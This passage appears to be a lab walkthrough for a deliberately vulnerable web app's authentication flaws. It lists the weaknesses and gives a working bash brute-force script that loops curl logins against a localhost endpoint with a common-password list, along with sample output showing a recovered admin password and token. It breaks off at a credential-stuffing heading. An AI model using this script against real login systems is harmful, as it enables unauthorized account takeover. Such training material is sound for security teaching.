 ### 📖 How It Works

The application has multiple authentication weaknesses:
1. No rate limiting on login attempts (brute force possible)
2. No account lockout after failed attempts  
3. Weak password requirements
4. Session tokens may be predictable
5. No multi-factor authentication

### 🔓 Step-by-Step Exploitation

#### Step 1: Brute Force Attack (No Rate Limiting)

```bash
# Create a password list
cat > passwords.txt << EOF
admin
password
admin123
password123
123456
qwerty
letmein
welcome
EOF

# Brute force login endpoint
while IFS= read -r password; do
  echo "Trying password: $password"
  response=$(curl -s -X POST http://localhost:3000/api/login \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"admin\",\"password\":\"$password\"}")
  
  if echo "$response" | grep -q "success.*true"; then
    echo "SUCCESS! Password found: $password"
    echo "$response"
    break
  fi
done < passwords.txt
```

**Result:**
```
Trying password: admin
Trying password: password
Trying password: admin123
SUCCESS! Password found: admin123
{"success":true,"token":"eyJhbGciOiJIUzI1NiIs..."}
```

✅ **No rate limiting - unlimited attempts allowed!**

#### Step 2: Automated Credential Stuffing
